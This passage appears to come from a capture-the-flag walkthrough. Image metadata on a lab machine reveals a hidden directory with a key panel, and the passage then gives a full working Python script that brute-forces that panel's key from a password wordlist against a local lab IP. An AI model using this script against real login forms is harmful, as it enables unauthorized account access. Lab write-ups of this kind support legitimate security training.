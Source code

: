 ```Console
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

There is a comment on the gif metadata. After several attempts, I check that it is a directory (/kzMb5nVYJw/) with a key panel.
![hidden_directory](images/hidden_directory.png)

### Exploitation
Lets try bruteforce with a tool written in python:

```Python
#!/usr/bin/python3

from pwn import *
import requests, signal, sys

def def_handler(sig, frame):
        print("[!] Aborting...")
        sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "http://10.0.2.13/kzMb5nVYJw/index.php"

def makeRequest():
    
    f = open("password.txt", "r",  encoding = "ISO-8859-1")
    
    p1 = log.progress("Brute Force")

    s = requests.session()


    for password in f.readlines():
        password = password.strip()
        
        p1.status(f"Trying password: {password}")
        
        post_data = {
            'key':password,
                }
        r = s.post(url, data=post_data)
        if "invalid key" not in r.text:
            p1.success(f"The password is: {password}")
            sys.exit(0)


if __name__ == "__main__":
    makeRequest()

```
